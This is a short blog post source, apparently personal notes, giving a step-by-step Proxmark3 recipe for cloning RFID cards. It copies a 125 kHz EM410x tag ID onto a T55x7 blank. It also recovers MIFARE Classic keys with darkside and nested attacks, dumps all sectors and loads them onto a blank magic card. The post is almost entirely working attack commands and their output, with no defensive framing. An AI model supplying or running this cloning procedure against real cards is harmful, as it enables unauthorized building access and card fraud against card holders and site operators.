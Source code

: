 ```yaml
---
layout: post 
title: How to clone RFID cards 如何复制RFID卡
tags:
- rfid
---
```


Tool used: Proxmark3 with [野马无疆PM3 Proxmark3 RFID ICID读卡 全加密](https://item.taobao.com/item.htm?spm=a230r.7195193.1997079397.9.hb2yGL&id=556716910562&abbucket=9)
useful links:
 - https://github.com/Proxmark/proxmark3/wiki/commands
 - https://zhuanlan.zhihu.com/p/29661557
 - http://www.proxmark.org/forum/viewtopic.php?id=2554

## How to clone a low frenquence (125KHZ) RFID card
```
proxmark3> lf search
Reading 30000 bytes from device memory

Data fetched
Samples @ 8 bits/smpl, decimation 1:1
NOTE: some demods output possible binary
  if it finds something that looks like a tag
False Positives ARE possible


Checking for known tags:

EM410x pattern found:

EM TAG ID      : ***********
Unique TAG ID  : ***********

Valid EM410x ID Found!

proxmark3> lf em em410xwrite <EM TAG ID> 1
Writing T55x7 tag with UID 0x*********** (clock rate: 64)
#db# Started writing T55x7 tag ...
#db# Clock rate: 64
#db# Tag T55x7 written with 0xff82345234

```

## How to clone a high frequence card
```
proxmark3> hf search

 UID : xx xx xx xx
ATQA : xx xx
 SAK : xx [2]
TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1
proprietary non iso14443-4 card found, RATS not supported
Answers to chinese magic backdoor commands: NO

Valid ISO14443A Tag Found - Quiting Search

proxmark3> hf mf mifare
...
parity is all zero,try special attack!just wait for few more seconds...
Found valid key:ffffffffffff 

proxmark3> hf mf nested 1 0 A ffffffffffff d
Testing known keys. Sector count=16
nested...
-----------------------------------------------
Iterations count: 0


|---|----------------|---|----------------|---|
|sec|key A           |res|key B           |res|
|---|----------------|---|----------------|---|
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|001|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|002|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|003|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|004|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|005|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|006|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|007|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|008|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|009|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|010|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|011|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|012|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|013|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|014|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|015|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|---|----------------|---|----------------|---|
Printing keys to binary file dumpkeys.bin...

proxmark3> hf mf dump 1
...
Successfully read block  2 of sector 15.
#db# READ BLOCK FINISHED       
Successfully read block  3 of sector 15.
Dumped 64 blocks (1024 bytes) to file dumpdata.bin

proxmark3> script run dumptoemul.lua

# with blank UID card
proxmark3> hf mf cload <uid>
Loaded from file: <uid>.eml
```
